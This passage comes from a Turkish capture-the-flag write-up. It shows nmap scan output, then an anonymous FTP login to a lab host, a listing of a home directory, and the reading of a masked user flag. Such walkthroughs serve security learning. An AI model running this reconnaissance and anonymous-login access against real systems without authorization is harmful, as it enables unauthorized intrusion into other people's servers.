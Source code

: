 ```bash
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   100.80 ms 10.21.0.1
2   102.59 ms 10.10.42.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.64 seconds
```
---

Nmap taramasından elde ettiğimiz çıktıya göre, 21 numaralı port üzerinde çalışan FTP servisine "anonymous" kullanıcı ile giriş yapılabildiğini gördük.
Bu yetkiyi kullanarak FTP servisine bağlandık ve içerideki dizinleri inceledik. Yapılan inceleme sonucunda, FTP dizininde yer alan user.txt dosyasına ulaştık ve bu dosyayı indirerek ilk kullanıcı bayrağını (flag) başarıyla elde ettik.

```bash
ftp 10.10.42.172
```
```bash

Connected to 10.10.42.172.
220 (vsFTPd 3.0.3)
Name (10.10.42.172:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||36338|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||20483|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> more user.txt
6060xxxxxxxxxxxxxxxxxxxxxxxxxxxx
ftp> 
```

---